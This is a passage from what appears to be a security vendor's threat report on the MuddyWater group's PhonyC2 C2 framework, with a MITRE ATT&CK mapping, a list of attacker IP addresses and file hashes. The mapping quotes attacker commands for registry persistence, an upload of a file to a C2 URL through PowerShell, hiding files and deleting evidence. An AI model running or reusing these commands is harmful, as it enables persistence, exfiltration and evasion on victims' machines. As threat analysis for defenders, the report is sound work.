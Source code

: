 is marked in red has been changed since PhonyC2 V6, the use of UUIDs has been changed, and the “go” extension was added. The second part of the URL in green has not been changed from the V6 code.The response to this scan is the following payload.Figure 31: New PhonyC2 payload (see Figure 13 reference)While the encoded payload (green) looks similar to what we have seen in V6, MuddyWatter added a benign HTML code (red) to further conceal their activities. In PhonyC2 V6, the server response was solely the encoded payload without any HTML. Furthermore, the server’s location of the IP address 195.20.17[.]44 is in Israel, and we suspect this location was chosen on purpose to conceal network traffic in a targeted attacks against Israeli organizations.While examining the subnet 195.20.17.0/24 of this newer PhonyC2 server we have observed many IP addresses that are related to cybercrime. However, one of the IP addresses 195.20.17[.]183 had a passive DNS response of am1211.iransos[.]me. While we cannot confirm this IP address is related to MuddyWater, we suspect that the whole subnet is leased to some Iranian VPS provider used by MuddyWater.You can find the source code of PhonyC2 and the IOCs in our GitHub page.MITRE:TacticTechniqueDescriptionObservableCommand and ControlT1071.001 Application Layer Protocol: Web ProtocolsPhony C2 uses HTTP to download obfuscated payloadhttp://46.249.35[.]243:443/9b22685e-f173-4feb-95a4-c63daaf40c58.html?X9GFTRD6OZE=X9GFTRD6OZT1132.002 Data Encoding: Non-Standard EncodingPhony C2 payload is obfuscated using a custom encoding,15555554155555554,14((1414,1554(14(,1554(14(,15415554,1554(14(,1414(,154((154,154154((,1554(154,1414(,14(14((,14((((14,154(14((,154(14((,1554(14(,154(1414,1554(154,1554(154,14(((((,1555414,14(((((,14((14(,15414(((,155414((,155414((,1554((((,155414(,1415554,1415554,154((14,1541554,154(14(,141554(,154((14,154154(,141554(,154((14,154154(,154(14(,141554(,154((14,155414(,T1105 Ingress Tool TransferPhony C2 has the ability to download payloads from the C2 serverhttp://46.249.35[.]243:443/9b22685e-f173-4feb-95a4-c63daaf40c58.html?X9GFTRD6OZE=X9GFTRD6OZPersistenceT1547.001 Boot or Logon Autostart Execution: Registry Run Keys / Startup FolderPhony C2 has the ability to add persistence mechanisemreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v NEW /d C:\intel\utils\utils.jse /fExecutionT1059.001 Command and Scripting Interpreter: PowerShellPhony C2 is executed by PowerShell and is executing PowerShell commandspowershell Start-Job -ScriptBlock {Invoke-WebRequest -UseDefaultCredentials -UseBasicParsing -Uri http://172.16.162.1:1337/562a2ffe-a45a-4318-864b-5942fbd0a859.aspx?LY6EDE1KTNE=LY6EDE1KTNE -OutFile $input } -InputObject "c:\programdata\db.sqlite";sleep 6Defense EvasionT1564.001 Hide Artifacts: Hidden Files and DirectoriesPhony C2 is setting hidden attribute to files in C:\ProgramDataattrib +h c:\programdata\db.sqliteT1564.003 Hide Artifacts: Hidden WindowPhony C2 is executed to hide the PowerShell windowpowershell -EP BYPASS -NoP -W 1T1070.004 Indicator Removal: File DeletionPhony C2 deletes files after executionrm c:\programdata\db.sqlite ; rm c:\programdata\db.ps1T1112 Modify RegistryPhonyC2 creates registry entries to achieve persistenceNew-ItemProperty -Path "HKLM:SOFTWARE\iCXqExISMHV" -Name "fmoopWgmBla" -Value '$p_id =…'IOC:IP AddressDescription45.159.248[.]244PhonyC2 V6 (PaperCut)91.121.240[.]104"apiy7" PhonyC2 with ETag 2aa6-5c939a3a79153 (log4j)195.20.17[.]44Suspected as PhonyC2 V745.86.230[.]20MuddyWater infrastructure related to PhonyC2 activity (DarkBit Technion)137.74.131[.]30"apiy7" PhonyC2 with ETag 2aa6-5c939a3a79153178.32.30[.]3"apiy7" PhonyC2137.74.131[.]24"apiv4" and/or "apiy7" PhonyC2 with ETag 2aa6-5c939a3a7915346.249.35[.]243PhonyC2 V6 (DarkBit Technion)185.254.37[.]173PhonyC2 V6 (PaperCut)194.61.121[.]86PhonyC2 V6 (DarkBit Technion)87.236.212[.]22Suspected first version of PhonyC291.235.234[.]130PhonyC2 V6.zip157.90.153[.]60"apiv4" PhonyC2157.90.152[.]26"apiv4" PhonyC265.21.183[.]238"apiv4" PhonyC245.132.75[.]101Suspected MuddyWater infrastructure (edc1.6nc051221c[.]co)51.255.19[.]178Suspected MuddyWater infrastructure (pru2.6nc110821hdb[.]co)103.73.65[.]129Suspected MuddyWater infrastructure (nno1.6nc060821[.]co)103.73.65[.]225Suspected MuddyWater infrastructure (nno3.6nc060821[.]co)103.73.65[.]244Suspected MuddyWater infrastructure (kwd1.6nc220721[.]co)103.73.65[.]246Suspected MuddyWater infrastructure (kwd2.6nc220721[.]co)103.73.65[.]253Suspected MuddyWater infrastructure (kwd3.6nc220721[.]co)137.74.131[.]16Suspected MuddyWater infrastructure (qjk1.6nc051221c[.]co)137.74.131[.]18Suspected MuddyWater infrastructure (qjk2.6nc051221c[.]co)137.74.131[.]25Suspected MuddyWater infrastructure (qjk3.6nc051221c[.]co)164.132.237[.]67Suspected MuddyWater infrastructure (tes2.6nc051221a[.]co)164.132.237[.]79Suspected MuddyWater infrastructure (pru1.6nc110821hdb[.]co)Samples of files generated by the framework (those are non-exhaustive):SHA256Description7cb0cc6800772e240a12d1b87f9b7561412f44f01f6bb38829e84acbc8353b9cdb.ps15ca26988b37e8998e803a95e4e7e3102fed16e99353d040a5b22aa7e07438feadb.sqlite1c95496da95ccb39d73dbbdf9088b57347f2c91cf79271ed4fe1e5da3e0e542autils.jse2f14ce9e4e8b1808393ad090289b5fa287269a878bbb406b6930a6c575d1f736db.ps1b4b3c3ee293046e2f670026a253dc39e863037b9474774ead6757fe27b0b63c1db.sqliteb38d036bbe2d902724db04123c87aeea663c8ac4c877145ce8610618d8e6571futils.jseBack To BlogProductsPrevention PlatformPrevention for StoragePrevention for ApplicationsPrevention for EndpointsData Security: Powered by Deep InstinctDeep Learning: Prevention-First CybersecurityWhy Deep Instinct>99% Threat AccuracyPrevent RansomwarePrevent Zero-Day AttacksEnhance Existing Cyber ToolsExtend & Enhance EDR/XDR+ Microsoft Defender+ TaniumLegacy AVCompanyAbout Deep InstinctOur CustomersNewsroomCareersContact UsResourcesAsset LibraryBlogVideosEvents & WebinarsQuick